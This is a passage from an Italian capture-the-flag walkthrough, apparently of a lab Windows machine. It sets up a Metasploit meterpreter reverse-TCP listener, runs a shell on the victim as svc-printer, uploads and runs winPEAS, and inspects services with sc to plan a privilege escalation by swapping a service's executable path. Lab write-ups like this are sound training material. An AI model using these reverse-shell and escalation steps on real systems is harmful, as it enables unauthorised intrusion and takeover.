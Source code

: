 Avviamo [[msfconsole]]e utilizziamo l'exploit `multi/handler` con queste opzioni:
``` 
Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```

Mandiamo in ascolto con run poi torniamo sulla macchina vittima è facciamo partire la shell (.\shell.exe)
Viene aperta la shell meterpreter con user RETURN\svc-printer
### winpeas
copiamo [[winpeas]] nella cartella di lavoro in modo da poterla uploadare sulla macchina vittima
sulla macchina vittima lanciamo `upload winPEASany.exe` per effettuare l'upload
poi lanciamo lo script `./winPEASany.exe > peas_output.txt` salvando l'output su un file di testo da portare poi sulla nostra macchina per analizzarlo con `download peas_output.txt`.

L'output mostra una lunga di servizi che l'utente (la stampante) può stoppare o avviare (questo era l'errore di configurazione visto prima). Occorre modificare il percorso dell'eseguibile che viene lanciato quando viene avviato un servizio di livello SYSTEM/ADMINISTRATOR, mettendo una shell che sarà avviata con privilegi di administrator

Torniamo nella shell di meterpreter, avviamo la shell con il comando `shell`. Qui possiamo interrogare i servizi con `sc query <SERVIZIO>`, ad esempio `sc query bowser`
```
C:\Users\svc-printer\Documents>sc query bowser
sc query bowser

SERVICE_NAME: bowser 
        TYPE               : 2  FILE_SYSTEM_DRIVER  
        STATE              : 4  RUNNING 
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```
con `sc qc <SERVIZIO>` vediamo il percorso dell'eseguibile, ad esempio `sc qc bowser`
```
C:\Users\svc-printer\Documents>sc qc bowser
sc qc bowser
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: bowser
        TYPE               : 2  FILE_SYSTEM_DRIVER 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : system32\DRIVERS\bowser.sys
        LOAD_ORDER_GROUP   : Network
        TAG                : 5
        DISPLAY_NAME       : Browser
        DEPENDENCIES       : 
        SERVICE_START_NAME : 
```
